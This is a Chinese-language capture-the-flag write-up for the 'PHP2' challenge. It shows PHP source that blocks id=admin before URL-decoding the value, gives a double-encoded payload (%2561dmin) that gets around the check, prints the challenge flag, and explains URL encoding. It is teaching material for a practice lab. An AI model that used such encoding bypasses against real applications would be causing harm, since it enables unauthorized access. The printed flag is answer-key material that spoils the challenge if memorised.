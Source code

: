 ## PHP2

---

根据题目 php 访问


http://61.147.171.105:59446/index.php

可以访问 查看源码 php文件源代码通常在phps文件

---


http://61.147.171.105:59446/index.phps

源码如下

```php
<?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>
```
---
### 源码审计

* 第一个 if， 如果get请求的参数id=admin，则会出现not allowed！

* 对 id 进行 urldecode()

* 第二个 if，判断解码后的id 是否为 admin。

* 浏览器会对url 进行一次解码。

---

### 综上 需要给id传入 两次（对应题目PHP2）编码后的 admin即可

---

admin
* 对a编码 得到 %61dmin
* 对%编码 得到 %2561dmin

payload:

http://61.147.171.105:59446/?id=%2561dmin

### flag

Key: cyberpeace{2f15b0e8f21968bd215c9675c8418fff}

---

---

#### url编码原理
urldecode() 是PHP函数，解码经过URL编码的字符串，解码回原始的形式；

URL 编码（也称为百分号编码或URL转义）是一种用于在URL中表示特殊字符和非ASCII字符的技术。它的原理是将不安全或非标准字符转换成特殊的编码形式，以确保它们能够被安全地传输和解释，同时保留URL的有效性。URL 编码基于以下原则：

* 特殊字符转义：URL 编码将特殊字符，如空格、问号、和符号等，转换成以百分号 "%" 开头的两位十六进制数。例如，空格会被编码为"%20"，问号为"%3F"。

* 非ASCII字符编码：非ASCII字符，例如汉字、俄文、希腊字母等，通常不是URL允许的字符，因此需要进行编码以在URL中使用。这些字符被编码为一系列百分号编码的字符，以表示其Unicode代码点。例如，字母 "é" 可以被编码为"%C3%A9"。

* 保留字符不编码：URL 编码允许一些字符在URL中保持原样，不进行编码。这些字符包括字母、数字、连字符、下划线等。这些字符在URL中是安全的，因此不需要编码。

* 百分号 "%" 编码：因为百分号 "%" 本身在URL中有特殊意义，所以如果要在URL中表示 "%" 字符本身，它也需要进行编码，变成"%25"。







